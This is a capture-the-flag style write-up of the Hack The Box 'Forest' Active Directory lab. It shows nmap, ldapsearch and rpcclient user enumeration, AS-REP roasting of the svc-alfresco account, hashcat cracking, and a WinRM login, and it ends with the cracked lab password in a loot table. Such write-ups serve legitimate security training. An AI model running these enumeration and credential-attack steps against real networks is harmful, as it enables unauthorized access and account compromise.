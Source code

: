 # Enumeration

## Nmap
Scan open ports
```bash
nmap -sC -sV -A -oA nmap/scan.txt 10.129.211.144

Nmap scan report for 10.129.211.144
Host is up (0.0081s latency).                
Not shown: 989 closed tcp ports (reset)                 
PORT     STATE SERVICE      VERSION            
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2025-05-25 20:24:35Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped     
```
the domain is `htb.local` 
## Ladapsearch Users Enum
Check if the LDAP service allow anonymous authentication
```bash
ldapsearch -H LDAP://10.129.211.144 -x -s base namingcontexts
```

![[Pasted image 20250525232229.png]]

The `namingcontexts` attribute lists the **base Distinguished Name (DNs)** of all **naming contexts** that the LDAP server knows about.

Think of naming context as **entry point or "root containers"** in the LDAP directory tree where different categories of data are stored. Each one represents different **subtree** of the directory

So in now we can query the context of `htb` and  `local` **root containers**.

### Create a users list with ldapsearch
We can retrieve a users list with this query and save that in a file
```bash
ldapsearch -H LDAP://10.129.211.144 -x -b 'DC=htb,DC=local' '(objectClass=User)' sAMAccountName | grep sAMAccountName | awk '{print $2}' > users_list
```

- `-x`: this flags enable anonymous authentication
- `-b`: this flags specified the "root containers" where preform the LDAP query.

`awk '{print $2}'` means take only the second column of the output.

Clear the list of the useless name like name machine default users etc..

Clear user list
![[Pasted image 20250525234215.png]]


## Rpcclient 
I try to enumerate the users with anonymous authentication of smb protocol, in this case i use `rpcclient`:

```bash
rpcclient -U "" -N 10.129.211.144
```

enum the domain's users with `enumdomusers`
![[Pasted image 20250526014820.png]]

i founded a new users `svc-alfresco`... if i query the user rid i notice is a member of `Domain Users` and `Service Accounts`... this make me think that it's a **service users**.
![[Pasted image 20250526015139.png]]

Infect if i run again a LDAP query but without specify the **objectClass** and search "svc" keyword i see this is a **Service Account**.

```bash
ldapsearch -H LDAP://10.129.211.144 -x -b "DC=htb,DC=local" | grep -i "svc"
```

![[Pasted image 20250526015927.png]]

## Foothold
Searching on internet i find the [official documentation](https://docs.alfresco.com/process-services/latest/config/authenticate/#kerberos-and-active-directory) where there is specify "**Do not require Kerberos preauthentication**" enable in the Configuration steps
![[Pasted image 20250526022339.png]]
This means we can utilize the [GetNPUsers.py](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py) script to ask **TGS** ticket for users that have **Do not require Kerberos preauthentication** set.

```bash
GetNPUsers.py htb.local/svc-alfresco -dc-ip 10.129.211.144 -no-pass -format hashcat
```

![[Pasted image 20250526023233.png]]

Now i have the TGS i can try to crack that offline using hashcat and module `18200`
```bash
hashcat -m 18200 alfresco_TGS /usr/share/wordlists/rockyou.txt
```

![[Pasted image 20250526023704.png]]

Try to connect on the machine with this credential.. i try with `smb` protocol the credential are correct but the machine is not pwned so i try check if the `winrm` port (5985 5986) are opens on the target 
```nmap
nmap -p 5985 5986 10.129.211.144
```

![[Pasted image 20250526024319.png]]
The 5985 is open this mean we can try to connect with `winrm` protocol using `crackmapexec`
```bash
crackmapexec winrm 10.129.211.144 -u 'svc-alfresco' -p 's3rvice' -X 'whoami'
```

![[Pasted image 20250526024505.png]]


## Loot

| User                   | Password | Notes        |
| ---------------------- | -------- | ------------ |
| svc-alfresco@HTB.LOCAL | s3rvice  | Service User |
